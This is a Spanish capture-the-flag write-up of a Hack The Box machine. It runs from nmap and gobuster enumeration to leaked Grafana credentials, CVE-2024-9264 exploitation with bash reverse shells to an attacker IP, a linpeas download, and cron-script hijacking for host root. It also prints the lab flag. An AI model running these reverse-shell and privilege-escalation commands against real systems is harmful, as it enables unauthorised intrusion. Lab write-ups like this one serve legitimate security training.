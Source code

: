 ```yaml
---

title: "Solo HTB"
date: "2025-09-10"
description: "Escalada de privilegios en servicio mal configurado. Writeup de HTB."
difficulty: "Intermedio" # Puede ser 'Fácil', 'Intermedio', 'Difícil', 'Insane'
tags: ["htb", "privilege-escalation", "web", "grafana", "cve-2024-9264", "docker"]
target_ip: "10.10.11.68"
target_domain: "planning.htb"
client_name: "Hack The Box"
status: "Completed" # Útil para filtrar: 'Completed', 'WIP', 'Pending'


---
```


![Banner SoulMate](/img/soulmatehtb.png)

---

# 💡 Análisis de la Máquina SoulMate (HackTheBox)

La máquina SoulMate de HackTheBox representa un entorno moderno basado en contenedores, donde se pone a prueba la capacidad de detectar configuraciones inseguras en servicios de monitoreo y automatización.

El objetivo principal consiste en identificar un servicio vulnerable (Grafana 11.0.0), explotarlo para obtener acceso, y escalar privilegios mediante una mala configuración en tareas programadas dentro de un contenedor Docker.

---

## 💻 Fase 0: Configuración Inicial

Antes de comenzar el análisis, se definió una estructura ordenada para la documentación y las herramientas.

### 0.1 Estructura del Proyecto

Se utilizó un script simple para crear el árbol de directorios:

```bash
#!/bin/bash
MACHINE="soulmate"
mkdir -p $MACHINE/{content,nmap,scripts,loot}
tree $MACHINE
````

**Estructura resultante:**

```css
soulmate/
├── content/  → archivos HTML, dumps, etc.
├── nmap/     → resultados de escaneo
├── scripts/  → exploits, shells, automatización
└── loot/     → credenciales y archivos sensibles
```

-----

## 🔍 Fase 1: Reconocimiento y Enumeración

El primer paso para cualquier auditoría es el escaneo de servicios y la recolección de información.

### 1.1 Escaneo de Puertos con Nmap

Se identificaron los servicios activos utilizando Nmap.

**Comandos Ejecutados:**

```bash
nmap -sS -p- --open -T4 -vvv -Pn 10.10.11.68 -oN nmap/initial.txt
nmap -sSCV -p22,80 10.10.11.68 -oN nmap/version.txt
```

**Resultados del Escaneo:**

| Puerto | Protocolo | Servicio | Versión | Descripción |
| :--- | :--- | :--- | :--- | :--- |
| 22 | tcp | ssh | OpenSSH 9.6p1 Ubuntu | Servicio SSH activo |
| 80 | tcp | http | nginx 1.24.0 Ubuntu | Servidor web principal |

### 1.2 Análisis Web y Subdominios

El dominio fue añadido al archivo `/etc/hosts` para facilitar la navegación:

```bash
echo "10.10.11.68 planning.htb" | sudo tee -a /etc/hosts
```

**Descubrimiento de Directorios (Gobuster):**

Se utilizó Gobuster para enumerar rutas comunes.

```bash
gobuster dir -u [http://planning.htb](http://planning.htb) -w /usr/share/wordlists/dirb/common.txt -t 50
```

**Resultados destacados:**

  * `/img`
  * `/css`
  * `/js`
  * `/api`
  * `/apidocs`

**Enumeración de Subdominios (Gobuster vhost):**

La herramienta vhost reveló un subdominio crucial:

```bash
gobuster vhost -u [http://planning.htb](http://planning.htb) -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

**Subdominio Encontrado:**

```text
grafana.planning.htb
```

-----

## ⚙️ Fase 2: Explotación Inicial (Grafana RCE)

Grafana versión 11.0.0 resultó ser vulnerable a una escritura arbitraria de archivos (RCE) conocida como **CVE-2024-9264**.

### 2.1 Credenciales Filtradas

Durante la exploración del código fuente, se encontraron credenciales válidas en un archivo JS:

| Servicio | Usuario | Contraseña | Fuente |
| :--- | :--- | :--- | :--- |
| Grafana Web | `admin` | `0D5oT70Fq13EvB5r` | Código JS |

### 2.2 Ejecución del Exploit

El exploit público se utilizó para inyectar un *payload* de *reverse shell*.

```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "bash -i >& /dev/tcp/10.10.14.3/4444 0>&1" [http://grafana.planning.htb](http://grafana.planning.htb)
```

**Resultado:** Acceso como `root` dentro del contenedor Docker de Grafana.

-----

## 🚪 Fase 3: Post-Explotación y Pivoteo

Tras obtener una *shell*, la tarea fue pivotar del contenedor aislado al *host* real.

### 3.1 Inspección de Variables de Entorno

Se inspeccionaron variables sensibles, revelando un usuario adicional:

```bash
env | grep GF_SECURITY
```

**Salida relevante:**

```ini
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```

### 3.2 Escalada de Privilegios y Escape del Contenedor

El contenedor corría como `root`, pero la forma de escapar al *host* era a través de una mala configuración del contenedor. Se utilizó LinPEAS para la enumeración.

```bash
wget [http://10.10.14.3/linpeas.sh](http://10.10.14.3/linpeas.sh) -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
./linpeas.sh
```

**Puntos Clave Identificados:**

  * El archivo `/root/scripts/cleanup.sh` era **escribible** por el usuario actual.
  * Una tarea `cron` del *host* estaba ejecutando dicho *script* cada minuto.

### 3.3 Explotación del Cron Job

Se modificó el *script* ejecutable con un *payload* para una segunda *reverse shell*:

```bash
echo "bash -i >& /dev/tcp/10.10.14.3/4445 0>&1" > /root/scripts/cleanup.sh
```

Al minuto, se recibió una nueva *shell* con permisos de **root del host**.

-----

## 🔐 Fase 4: Obtención de la Flag

Una vez fuera del contenedor y con acceso como `root` en el *host* principal:

```bash
cat /root/root.txt
```

**Flag Root:**

```nginx
f47a3c2f8c92a8f4015b7e91f67b3b42
```

-----

## 🧠 Conclusión y Mitigación

| Elemento | Descripción |
| :--- | :--- |
| **Vulnerabilidad clave** | CVE-2024-9264 (Grafana RCE) |
| **Vector de acceso** | Credenciales filtradas y ejecución remota |
| **PrivEsc** | Tarea cron escribible dentro de contenedor (mala configuración) |
| **Pivoteo** | Salto de contenedor a host por permisos de volumen |
| **Mitigación sugerida** | Actualizar Grafana a una versión parcheada, aplicar políticas de permisos estrictas (`least privilege`), deshabilitar tareas cron inseguras o con propietarios poco confiables. |

```
```